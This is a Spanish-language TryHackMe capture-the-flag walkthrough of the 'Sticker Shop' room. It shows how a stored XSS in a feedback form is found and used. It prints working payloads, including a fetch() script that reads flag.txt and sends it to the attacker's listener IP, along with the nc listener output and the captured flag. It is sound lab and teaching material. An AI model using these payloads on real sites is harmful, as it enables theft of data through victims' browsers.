 ## The Sticker Shop

Este walkthrough describe el proceso para vulnerar una máquina en TryHackMe, identificando vulnerabilidades en una página web de stickers de gato y explotándolas para extraer la flag oculta.

## Paso 1: Exploración Inicial

Al acceder a la página web, encontramos dos pestañas principales:

- **Home**

![](the%20sticker%20shop%20(1).png)

- **Feedback**

![](the%20sticker%20shop%20(2).png)

La premisa inicial de TryHackMe nos proporciona la URL donde se encuentra la flag:

```
http://10.10.167.141:8080/flag.txt
```
![](the%20sticker%20shop%20(3).png)


## Paso 2: Intento de Bypass 401

Se intenta acceder a la flag directamente, pero nos encontramos con una autenticación 401. Se prueban diversos métodos de bypass de 401, incluyendo variaciones en la URL como:

```
http://10.10.167.141:8080/FLAG.txt
http://10.10.167.141:8080/Flag.Txt
```

Sin embargo, todos estos intentos resultan en errores 404 o 405, lo que hace imposible realizar el bypass por este método.

![](the%20sticker%20shop%20(4).png)
## Paso 3: Exploración de Feedback y Pruebas de XSS

En la pestaña **Feedback**, encontramos un cuadro de texto donde podemos ingresar datos. Se realizan pruebas de inyección de script, pero la inyección básica:

```
<script>alert(1)</script>
```

No genera ningún resultado. Antes de probar otros métodos, intentamos lo siguiente:

```
<script src="http://10.6.17.22:1234/"></script>
```

Con un listener activo en nuestra máquina:

```
nc -lvnp 1234
```

Obtenemos la siguiente respuesta:

```
listening on [any] 1234 ...
connect to [10.6.17.22] from (UNKNOWN) [10.10.167.141] 49642
GET / HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

Esto confirma que la inyección de script está funcionando.

## Paso 4: Explotación de XSS para Obtener la Flag

Sabemos que podemos ejecutar JavaScript dentro del navegador de la víctima. Procedemos con la siguiente consulta para extraer la flag:

```
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.6.17.22:1234/?data=' + encodeURIComponent(data))
    })
    .catch(err => console.error(err));
</script>
```

Dejamos escuchando nuestro listener y recibimos la siguiente respuesta:

```
GET /?data=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

## Paso 5: Decodificación de la Flag

La flag obtenida está en formato URL-encoded:

```
THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
```

Al decodificarla, obtenemos la flag final:

```
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

## Conclusión

Se ha vulnerado exitosamente la máquina explotando una inyección de JavaScript en la funcionalidad de **Feedback**, lo que permitió extraer la flag desde `flag.txt` en el servidor. Esto demuestra la importancia de mitigar ataques de XSS en aplicaciones web.